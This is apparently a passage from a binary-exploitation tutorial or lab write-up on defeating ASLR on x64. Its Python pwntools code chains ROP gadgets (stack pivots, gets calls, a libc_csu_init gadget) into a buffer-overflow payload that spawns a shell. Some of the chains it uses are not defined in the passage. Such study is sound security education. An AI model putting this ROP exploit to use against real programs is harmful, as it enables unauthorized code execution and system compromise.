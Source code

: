 ```python

rop10 = [ # buf6
	pop_rdi_ret, buf5 - 24, gets_plt, # rop11_1
	pop_rdi_ret, buf5 + 32, gets_plt, # rop11_2
	pop_rbp_ret, buf5 - 24 - 8, leave_ret
]

rop11_1 = [ # buf5 - 24
	pop_rbx_rbp_r12_r13_r14_r15_ret
]

rop11_2 = [ # buf5 + 32
	pop_rdi_ret, buf2 + 68, gets_plt, # rop12
	pop_rbp_ret, buf2 + 68 - 8, leave_ret
]

rop12 = [ # buf2 + 164
	libc_csu_init,
	pop_rbp_ret, buf7 - 8, leave_ret
]

rop13 = [
	pop_rdi_ret, buf8, gets_plt, # shell command
	pop_rdi_ret, buf8,
	pop_rbx_rbp_r12_r13_r14_r15_ret, 0, 0, buf2 + 24, 0, 0, 0,
	call_at_r12
]

payload = (
	'A' * 24 +
	''.join(map(p64, rop1)) + '\n' +
	''.join(map(p64, rop2)) + '\n' +
	''.join(map(p64, rop4)) + '\n' +
	''.join(map(p64, rop5)) + '\n' +
	''.join(map(p64, rop7)) + '\n' +
	''.join(map(p64, rop9)) + '\n' +
	''.join(map(p64, rop10)) + '\n' +
	''.join(map(p64, rop13)) + '\n' +
	''.join(map(p64, rop3))[:-1] + '\n' +
	''.join(map(p64, rop6_1))[:-1] + '\n' +
	''.join(map(p64, rop6_2)) + '\n' +
	''.join(map(p64, rop8)) + '\n' +
	''.join(map(p64, rop11_1))[:-1] + '\n' +
	''.join(map(p64, rop11_2)) + '\n' +
	''.join(map(p64, rop12)) + '\n' +
	'sh\n'
)
p.send(payload)
p.interactive()
```

![w5-x64-deaslr-process](w5-x64-deaslr-process.png)

![w5-getv-from-got](w5-getv-from-got.png)

![w5-x64-deaslr-addoffset](w5-x64-deaslr-addoffset.png)

![w5-deaslr-base2rbx](w5-deaslr-base2rbx.png)

